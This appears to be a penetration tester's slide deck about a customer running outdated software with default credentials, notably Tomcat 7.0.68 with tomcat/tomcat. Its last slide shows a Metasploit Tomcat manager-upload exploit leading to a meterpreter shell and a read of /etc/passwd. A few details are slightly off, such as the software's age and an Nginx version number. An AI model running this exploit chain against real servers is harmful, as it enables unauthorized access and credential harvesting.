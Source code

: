 \documentclass[Screen16to9,17pt]{foils}
\begin{document}


\begin{quote}
The Apache Tomcat® software is an open source implementation of the Jakarta Servlet, Jakarta Server Pages, Jakarta Expression Language, Jakarta WebSocket, Jakarta Annotations and Jakarta Authentication specifications. These specifications are part of the Jakarta EE platform.
\end{quote}
Source: \url{https://tomcat.apache.org/}

\begin{list2}
\item Well-known and used in many places to deploy Java applications, great
\item There are no default user, great
\end{list2}

Wait, why does this customer in Januart 2022 have a running version 7.0.68 with user tomcat/tomcat.

This version is from 2016 - so about 7-8 years old!


Same customer as before. Following software was identified
\begin{list2}
\item Apache Solr 4.10.1 was identified\\
According to the official web site for this software it was released in 2014! Release 4.10.1 [2014-09-28]
\item Zookeeper 3.4.10-39d3a4f269333c922ed3db283be479f9deacaa0f (Built on 03/23/2017)
\item WEBrick httpd 1.3.1 (Ruby 2.4.3 (2017-12-14))
\item Nginx 1.10.3 old and Nginx 10.15.10 release in 2019
Since some are from 2017 we consider the software outdated.
\end{list2}




\begin{alltt}\scriptsize
msf > use exploit/multi/http/tomcat_mgr_upload

meterpreter > sysinfo
Computer    : solr4-prod-xxxxx.internal
OS          : Linux 4.15.0-1098-gcp (amd64)
Meterpreter : java/linux
meterpreter > shell
Process 1 created.
Channel 1 created.

whoami
tomcat7

id
uid=114(tomcat7) gid=118(tomcat7) groups=118(tomcat7)
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
\end{alltt}
\end{document}
